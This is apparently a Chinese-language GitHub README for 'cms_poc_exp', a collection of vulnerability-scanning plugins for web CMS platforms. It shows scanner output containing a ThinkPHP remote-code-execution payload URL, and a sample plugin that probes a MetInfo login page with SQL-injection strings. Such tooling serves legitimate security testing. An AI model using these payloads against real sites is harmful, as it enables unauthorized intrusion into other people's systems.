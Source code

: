 # cms_poc_exp (扫描版本、兼容pocsuite3插件调用)
![](https://img.shields.io/badge/program-Python3-blue.svg)
___

## 此项目的目的与意义
> 个人精力有限,故公开此项目让感兴趣的人一起搜集插件为自己/作者扫描器提供强力的驱动
> 如果感兴趣为本项目提供支持,可以联系本人QQ2563152103

## 项目说明
  - ~~本项目插件现已支持Python3 不再兼容Python2,故若要使用 [ShellFrameworkd](https://github.com/1oid/Shell-Frameworkd)
  进行批量扫描,请自行修改插件支持Python2~~
  - ~~[ShellFrameworkd](https://github.com/1oid/Shell-Frameworkd)批量扫描将会再之后修改为支持Python3~~
  - `ShellFrameworkd`已更名为[PocBatch-M](https://github.com/1oid/PocBatch-M)并支持了Python3
  - 更新pocsuite3插件调用 20211116
  - 更新算法，新增颜色 20220301

## 使用说明
`python3 scan.py -u "http://43.*.*.*" -m dedecms`
```
➜  cms_poc_exp_dev git:(dev) ✗ python3 newscan.py -u "http://localhost:8080" -m thinkphp
[INFO] loaded exploits folder 31
[INFO] loaded 4 plugins for thinkphp
[NOT] check thinkphp_5_0_to_23_rce_captcha_poc2 not vulnerability
[NOT] check thinkphp_5_0_to_23_rce_captcha not vulnerability
[FIND] [ThinkphpRCE] http://localhost:8080?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
[NOT] check thinkphp_5_0_to_20_rce_captcha not vulnerability
```


## 现有的cms插件
  - [dedecms](https://github.com/1oid/cms_poc_exp/tree/master/dedecms)
  - [discuz](https://github.com/1oid/cms_poc_exp/tree/master/discuz)
  - [emobile](https://github.com/1oid/cms_poc_exp/tree/master/emobile)
  - [finecms](https://github.com/1oid/cms_poc_exp/tree/master/finecms)
  - [jcms](https://github.com/1oid/cms_poc_exp/tree/master/jcms)
  - [maccms](https://github.com/1oid/cms_poc_exp/tree/master/maccms)
  - [metinfo](https://github.com/1oid/cms_poc_exp/tree/master/metinfo)
  - [phpcms](https://github.com/1oid/cms_poc_exp/tree/master/phpcms)
  - [tomcat](https://github.com/1oid/cms_poc_exp/tree/master/tomcat)
  - [weblogic](https://github.com/1oid/cms_poc_exp/tree/master/weblogic)
  - [wordpress](https://github.com/1oid/cms_poc_exp/tree/master/wordpress)
  - [网站扫描插件_其他通用漏洞](https://github.com/1oid/cms_poc_exp/tree/master/www)
  - [yonyouoa](https://github.com/1oid/cms_poc_exp/tree/master/yongyouoa)
  - [zfsoft](https://github.com/1oid/cms_poc_exp/tree/master/zfsoft)
  - [jetty](https://github.com/1oid/cms_poc_exp/tree/master/jetty)
  - [ecshop](https://github.com/1oid/cms_poc_exp/tree/master/ecshop)
  - [74cms](https://github.com/1oid/cms_poc_exp/tree/master/74cms)

## 插件编写格式,
```python
class Exploit:

  def attack(self, url):
    # 这里写验证漏洞的一些代码
    return "返回(提示)字符串"
```
调用 `Exploit().attack(url)`

以`metinfo_login_lang_sql`插件为例
```python
import requests
from urllib.parse import quote

class Exploit:

    def attack(self, url):
        true_url = url + "/admin/login/login_check.php?langset=cn" + quote("' and '1' ='1")
        false_url = url + "/admin/login/login_check.php?langset=cn" + quote("' and '1' ='2")

        response = requests.get(true_url)
        response2 = requests.get(false_url)

        if 'not have this language' in response2.text and 'not have this language' not in response.text:
            return "{} has SQL Injection!".format(true_url)
```

## 插件编写注意事项
+ 拒绝重复插件, 新增了一个`find.py`, 通过特征来搜索已存在的脚本是否含有指定特征
使用方法: 
  - 方法一: `python3 find.py cms名称 特征` 例如 `python3 find.py dedecms /install/index.php`
  - 方法二: `python3 find.py 特征` 例如 `python3 find.py /install/index.php` (如果不指定cms, 则会查找本地所有的插件)

## 本项目目前支持/贡献的人
- [1oid(作者)](https://github.com/1oid)
- [ske](https://github.com/SkewwG/)提供自己编写的插件[VulScan](https://github.com/SkewwG/VulScan)
- [LiodAir](https://github.com/LiodAir)提交分支
- [icetea1](https://github.com/icetea1) 提交新的cms和poc
